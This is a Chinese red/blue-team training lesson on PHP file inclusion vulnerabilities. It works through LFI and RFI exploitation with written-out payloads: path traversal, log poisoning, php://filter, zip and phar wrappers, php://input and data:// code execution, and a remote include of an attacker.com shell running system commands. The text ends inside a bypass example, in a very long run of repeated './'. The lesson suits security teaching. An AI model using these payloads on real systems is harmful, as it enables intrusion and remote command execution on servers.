





# 护网行动红蓝攻防教程：P30：web安全-6.文件包含 📁


在本节课中，我们将要学习文件包含漏洞。这是一种常见的Web安全漏洞，攻击者可以利用它来读取服务器上的敏感文件，甚至执行任意代码。我们将从漏洞的基本概念讲起，逐步深入到其类型、利用方式以及如何防御。

## 漏洞概述 🔍

文件包含是开发人员为了减少代码冗余、便于维护和统一网站风格而采用的一种编程方法。它将需要重复调用的函数写入一个单独的文件，然后在其他页面中通过特定函数引入该文件。

然而，当包含文件的参数（通常是文件路径）没有经过严格过滤或定义，可以被攻击者控制时，就会产生文件包含漏洞。攻击者可以利用此漏洞包含并执行非预期的文件，例如系统敏感文件或攻击者上传的恶意文件。

常见的漏洞代码如下：
```php
<?php
    $file = $_GET['file'];
    include($file);
?>
```
在这段PHP代码中，`include`函数通过GET请求获取`file`参数的值来包含文件。由于没有对`file`参数进行过滤，攻击者可以构造URL（例如 `?file=shell.php`）来包含任意文件。





PHP中常用的文件包含函数有四个：
*   **`require`**: 包含文件，出错时直接报错并终止脚本。
*   **`require_once`**: 与`require`类似，但确保文件只被包含一次。
*   **`include`**: 包含文件，出错时抛出警告但脚本继续执行。
*   **`include_once`**: 与`include`类似，但确保文件只被包含一次。




在进行代码审计时，可以全局搜索这些函数来寻找潜在的漏洞点。

## 漏洞类型与利用方式 ⚔️

文件包含漏洞主要分为两种类型：本地文件包含（LFI）和远程文件包含（RFI）。理解它们的区别是利用的关键。

### 本地文件包含（LFI）





本地文件包含是指被包含的文件位于服务器本地。攻击者可以利用此漏洞读取服务器上的敏感文件，或包含已上传的恶意文件。

以下是几种常见的LFI利用方式：

**1. 包含系统敏感文件**
攻击者可以尝试包含系统文件来获取敏感信息。例如，在Windows系统中包含 `C:\Windows\win.ini` 文件。
```
?file=../../../../Windows/win.ini
```

**2. 包含上传的文件**
如果网站存在文件上传功能，攻击者可以上传一个包含恶意代码的文件（如图片），然后利用LFI漏洞包含该文件。只要文件内容符合PHP语法，无论其后缀名是什么，都会被服务器解析执行。
例如，上传一个内容为 `<?php phpinfo();?>` 的 `shell.jpg` 文件，然后通过LFI包含它。
```
?file=./uploads/shell.jpg
```

**3. 利用日志文件**
Web服务器（如Apache）会记录访问日志。攻击者可以构造一个包含PHP代码的请求，该请求会被记录到日志文件中。然后利用LFI漏洞包含这个日志文件，从而执行其中的PHP代码。
*   **步骤**:
    1.  访问一个包含恶意代码的URL，例如：`http://target.com/<?php phpinfo();?>`。
    2.  由于浏览器会对特殊字符进行URL编码，通常需要使用代理工具（如Burp Suite）拦截请求，将编码后的字符改回原始形式再发送。
    3.  利用LFI漏洞包含Apache的访问日志文件，例如：`?file=../../Apache/logs/access.log`。

**4. 使用`php://filter`协议读取源码**
直接包含PHP文件会导致代码被执行，看不到源代码。`php://filter`协议可以让我们以编码形式（如Base64）读取文件源码，从而进行审计。
```
?file=php://filter/convert.base64-encode/resource=index.php
```
执行后获得Base64编码的源码，解码即可查看。

**5. 使用压缩协议（zip/phar）**
攻击者可以上传一个压缩文件（如ZIP），里面包含恶意脚本。然后利用`zip://`或`phar://`协议直接访问压缩包内的文件并执行。
*   **`zip://`协议示例** (需要绝对路径):
    ```
    ?file=zip:///var/www/uploads/shell.jpg%23shell.php
    ```
    （`#`需要URL编码为`%23`）
*   **`phar://`协议示例** (可以使用相对路径):
    ```
    ?file=phar://./uploads/shell.jpg/shell.php
    ```


### 远程文件包含（RFI）

远程文件包含是指被包含的文件位于远程服务器上。这允许攻击者直接包含并执行托管在自家服务器上的恶意脚本。RFI的利用条件更为苛刻，需要PHP配置中 `allow_url_fopen` 和 `allow_url_include` 设置为 `On`（后者在PHP 5.2后默认关闭）。

**1. 包含远程Web Shell**
最直接的利用方式是包含一个远程的包含恶意代码的文本文件。
```
?file=http://attacker.com/shell.txt
```
如果`shell.txt`内容为 `<?php system($_GET[‘cmd’]);?>`, 攻击者就可以通过 `?file=http://attacker.com/shell.txt&cmd=whoami` 执行系统命令。

**2. 利用`php://input`执行POST代码**
`php://input`是个可以访问请求原始数据的流。如果`allow_url_include`开启，攻击者可以通过POST方式直接传递PHP代码执行。
*   **请求示例**:
    ```
    GET: ?file=php://input
    POST Data: <?php system(‘whoami’); ?>
    ```

**3. 利用`data://`协议**
`data://`协议允许在URL中包含嵌入数据。同样需要`allow_url_include`开启。
```
?file=data://text/plain,<?php phpinfo();?>
```
或使用Base64编码绕过某些过滤：
```
?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

## 绕过技巧与防御 🛡️

上一节我们介绍了文件包含的基本利用方式，但在实际环境中，开发者可能会添加一些防护措施。本节我们来看看常见的绕过技巧以及如何从根本上防御此类漏洞。

### 常见绕过方式


**1. 路径截断**
当代码为包含的文件名添加了固定后缀时，例如：
```php
include(‘./inc/’ . $_GET[‘file’] . ‘.html’);
```
攻击 `?file=../../shell.php` 会变成包含 `./inc/../../shell.php.html`，文件不存在。可以使用空字节`%00`（PHP<5.3.4且`magic_quotes_gpc`关闭）进行截断：
```
?file=../../shell.php%00
```
这样，PHP在读取字符串时遇到`%00`（NULL字节）就认为字符串结束，忽略后面的`.html`。


**2. 超长路径截断**
在Windows系统下，路径长度超过一定限制（如256字节）时，多余部分会被丢弃。攻击者可以通过添加大量`./`来使后缀`.html`被丢弃。
```
?file=../../shell.php/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././